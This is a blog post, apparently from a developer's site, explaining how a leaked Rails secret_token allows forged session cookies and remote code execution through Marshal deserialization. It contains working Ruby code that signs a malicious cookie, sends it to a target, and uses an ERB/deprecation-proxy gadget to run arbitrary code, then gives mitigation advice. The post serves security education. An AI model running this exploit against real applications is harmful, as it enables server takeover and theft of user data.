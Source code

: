 ```yaml
---
permalink: /2013/07/22/how-to-hack-a-rails-app-using-its-secret-token/
layout: post
title: How to hack a Rails app using its secret_token
hn: 6110386
bestof: true
tags: [Security]
---
```


Create a new Rails app, open `/config/initializers/secret_token.rb` and you'll see your app's `secret_token`. As I will show you, if anyone who wishes you harm gets hold of this string then they can execute arbitrary code on your server. Troublingly, the Rails default includes it in your version control, and if you don't remove it then anyone who gets or is given access to your codebase has complete, complete control over your server. Maybe you added them to your private repo for a code review, or unthinkingly put a side-project production app into a public repo, or someone sneaked a look at your Sublime while you were out. It doesn't matter - if they have this key then they own you.

### Why your `secret_token` is important - session cookies

Your `secret_token` is used for verifying the integrity of your app's session cookies. A session cookie will look something like:

{% highlight ruby %}
_MyApp_session=BAh7B0kiD3Nlc3Npb25faWQGOgZFRkkiJTcyZTAwMmRjZTg2NTBiZmI0M2UwZmY0MjEyNGJjODBhBjsAVEkiEF9jc3JmX3Rva2VuBjsARkkiMWhmYTBKSGQwYVQxRlhnTFZWK2FEZEVhbEtLbDBMSitoVEo5YU4zR2dxM3M9BjsARg%3D%3D--dc40a55cd52fe32bb3b84ae0608956dfb5824689
{% endhighlight %}

The cookie value (the part after the `=`) is split into 2 parts, separated by `--`. The first part is a Base64 encoded serialization of the hash that Rails will use as the `session` variable in controllers. The second part is a signature created using `secret_token`, that Rails uses to check that the cookie it has been passed is legit. This prevents users from forging nefarious cookies and from tricking Rails into loading data it doesn't want to load. Unless of course they have your `secret_token` and can also forge the signature...

### The serialized session hash

The first part of the cookie is a Marshal dump of the session hash, encoded in Base64. Marshal is a Ruby object serialization format that is used here to allow Rails to persist objects between requests made in the same session. In many cases it will only store the `session_id`, `_csrf_token` and Warden authentication data, but calling `session["foo"] = "bar"` in your controllers allows you to store pretty much anything you want. For my cookie above, unescaping the URL encoding and then Base64 decoding gives:

{% highlight ruby %}
"\x04\b{\aI\"\x0Fsession_id\x06:\x06EFI\"%72e002dce8650bfb43e0ff42124bc80a\x06;\x00TI\"\x10_csrf_token\x06;\x00FI\"1hfa0JHd0aT1FXgLVV+aDdEalKKl0LJ+hTJ9aN3Ggq3s=\x06;\x00F"
{% endhighlight %}

which if you squint hard enough is indeed starting to look kind of like a hash. This cookie is passed up to the server with each request, Rails calls `Marshal.load` on it, and merrily populates `session` with whatever serialized objects it is passed. Object persistance between requests. Brilliant.

### The signature

But wait, the cookie obviously lives on the client side, which means that a user can set it to be anything they want. Which means that the user can pass in whatever serialized object they want to our app. And by the time we reinflate it and realise that they have passed us a small thermonuclear device, it will be too late and the attacker will be able to execute arbitrary code on our server.

That's where our `secret_token` and the second part of the cookie value (the part after the `--`) come in. Whenever Rails gets a session cookie, it checks that it hasn't been tampered with by verifying that the HMAC digest of the first part of the cookie with its `secret_token` matches the second, signature part. This means in order to craft a nefarious cookie an attacker would need to know the app's `secret_token`. Unfortunately, just being called `secret_token` doesn't make it secret, and, as already discussed, if you aren't careful then it can easily end up somewhere you don't want it to.

### The attack - how to bake a poisonous cookie

If you know an app's `secret_token` and want to forge a valid cookie, you simply need to reverse the above process:

{% highlight ruby %}
require "net/http"
require "uri"

secret_token = "stolen-from-github-or-somewhere"

# Construct your evil hash
my_evil_session_hash = {
    "ive_made_a_huge_mistake" => true
}

# Serialize your hash
marshal_dump = Marshal.dump(my_evil_session_hash)

# Base64 encode this dump
unescaped_cookie_value = Base64.encode64(marshal_dump)

# Escape any troublesome characters and remove line breaks altogether
escaped_cookie_value = CGI.escape(unescaped_cookie_value).gsub("%0A", "")

# Calculate the signature using the HMAC digest of the secret_token and the escaped cookie value. Replace %3D with equals signs.
cookie_signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret_token, escaped_cookie_value.gsub("%3D", "="))

# Construct your evil cookie by concatenating the value with the signature
my_evil_cookie = "_MyApp_session=#{unescaped_cookie_value}--#{cookie_signature}"

# BOMBS AWAY
url = URI.parse("http://myapp.com/") # Make sure you have a trailing / if you are sending to the root path

req = Net::HTTP::Get.new(url.path)
req.add_field("Cookie", my_evil_cookie)

res = Net::HTTP.new(url.host, url.port).start do |http|
    http.request(req)
end
{% endhighlight %}

This request will load `my_evil_session_hash` into `session`, which is purely on principal not good. But loading arbitrary strings and integers is not about to melt any servers. How can you choose the contents of your hash so as to actually do some damage? Some obscure objects buried deep inside Rails are happy to oblige:

{% highlight ruby %}   
# Thanks to the folks at CodeClimate for pointing this out

# The code in the ERB will run when Rails unserializes it
erb = ERB.allocate
erb.instance_variable_set :@src, "User.steal_all_passwords; User.email_spam_to_all_users;"

proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result)
my_evil_session_hash = {
    "proxy_of_death" => Marshal.dump(proxy)
}
# ... continue as above
{% endhighlight %}

And presto.

### Knowing is half the battle

ALL of this trouble can be trivially avoided by taking `secret_token` out of your version control. Put it into an environment variable (<a href="https://github.com/bkeepers/dotenv">dotenv</a> is handy for local, it's easy on <a href="https://devcenter.heroku.com/articles/config-vars">Heroku</a> too) and you can sleep (a bit more) soundly at night. If you suspect that someone you wouldn't want to meet on a dark night knows your `secret_token` then you can simply change it. All your existing cookies will be invalidated, but nothing else bad will happen. Of course, you still don't want anyone you don't trust to get any kind of access to your codebase at all. But you can at least make life difficult for them even if they do.

### Thanks to

<a href="http://railssecurity.com" target="_blank">Rails Security by Code Climate</a>
and
<a href="http://techbrahmana.blogspot.co.uk/2012/03/rails-cookie-handling-serialization-and.html" target="_blank">TechBrahmana</a>


